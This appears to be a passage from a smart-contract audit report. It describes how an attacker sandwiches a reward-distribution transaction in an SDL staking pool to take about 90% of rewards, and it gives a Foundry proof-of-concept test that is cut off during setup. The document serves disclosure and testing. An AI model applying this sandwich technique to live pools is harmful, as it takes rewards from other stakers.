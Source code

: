 This sequence of actions allowed bob to receive 90% of the rewards immediately, disadvantaging other stakers.

## POC :

- a foundry test with a min setup shows how bob sandwich the distribute reward tx to gain more then `90%` of rewards.

```js
 //SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

import {Test} from "forge-std/Test.sol";
import {console} from "forge-std/console.sol";
import "../../contracts/core/sdlPool/SDLPoolPrimary.sol";
import "../../contracts/core/tokens/StakingAllowance.sol";
import "../../contracts/core/sdlPool/LinearBoostController.sol";
import "../../contracts/core/RewardsPool.sol";
import "../../contracts/core/tokens/base/ERC677.sol";
contract proxy {
    address immutable private imple;
    receive() external payable{}
    constructor (address _implem) {
        imple = _implem;
    }

    function implementation() public view returns(address) {
        return imple;
    }
    fallback() external payable {
        if (msg.data.length > 0){
            address addr = implementation();
        (bool ok ,) = addr.delegatecall(msg.data);
        if(!ok) revert("failed");
        assembly {
            returndatacopy(0,0,returndatasize())
            return(0,returndatasize())
        }
        }
    }
}
contract sandwichPoc is Test {
    SDLPoolPrimary p_pool;
    proxy primaryPool;
    StakingAllowance sdl;
    LinearBoostController boostController;
    RewardsPool r_pool;
    ERC677 r_token = new ERC677("rewared token", "RT",100000 ether);
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    function setUp() public {

        p_pool = new SDLPoolPrimary();// deploy the primary pool implementation
        primaryPool = new proxy(address(p_pool)); // min proxy for primary pool
        p_pool = SDLPoolPrimary(address(primaryPool));
        // deploy the sdl token :
        sdl = new StakingAllowance("sdl token","SDL");
        boostController = new LinearBoostController(4 * 365 days, 4); // deploy the boostController
        r_pool = new RewardsPool(address(p_pool),address(r_token)); // deploy the reward pool
        p_pool.initialize("testing","tt",address(sdl), address(boostController)); // initialize the primary pool
        p_pool.addToken(address(r_token),address(r_pool)); // add the token
        p_pool.setCCIPController(address(this));// to avoid ccip acess controle errors
        sdl.mint(bob, 120 ether);// mint sdl tokens to bob
```